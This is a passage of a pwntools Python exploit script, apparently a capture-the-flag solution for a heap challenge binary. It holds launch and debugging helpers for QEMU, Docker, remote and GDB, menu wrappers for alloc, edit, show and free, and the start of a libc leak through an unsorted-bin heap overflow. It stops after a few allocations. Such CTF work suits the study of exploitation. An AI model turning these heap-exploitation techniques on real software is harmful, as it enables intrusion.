 ```python
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if args.QEMU:
        gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
        for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
            gdb_args.extend(["-ex", cmd])
        Popen(gdb_args)
    elif args.DOCKER:
        gdbscript = f'''
        init-pwndbg
        set sysroot /proc/{pid}/root
        c
        '''.format(**locals())        
        attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='chall')
    else:
        attach(io, gdbscript=gdbscript)


# =========================================================
#                         EXPLOITS
# =========================================================
def alloc(idx, size):
    io.sendlineafter(b': ', b'1')
    io.sendlineafter(b': ', str(idx).encode())
    io.sendlineafter(b': ', str(size).encode())

def edit(idx, data):
    io.sendlineafter(b': ', b'2')
    io.sendlineafter(b': ', str(idx).encode())
    io.sendafter(b': ', data)

def show(idx):
    io.sendlineafter(b': ', b'3')
    io.sendlineafter(b': ', str(idx).encode())
    io.recvuntil(b'content : ')

def free(idx):
    io.sendlineafter(b': ', b'4')
    io.sendlineafter(b': ', str(idx).encode())

def exploit():
    global io
    io = initialize()
    with log.progress("Leak libc via unsortedbins heap overflow"), context.silent:
        alloc(0, 0x18)  # chunk 0
        alloc(1, 0x420)  # chunk 1
        alloc(2, 0x18)  # chunk 2 also guard
        free(1)
```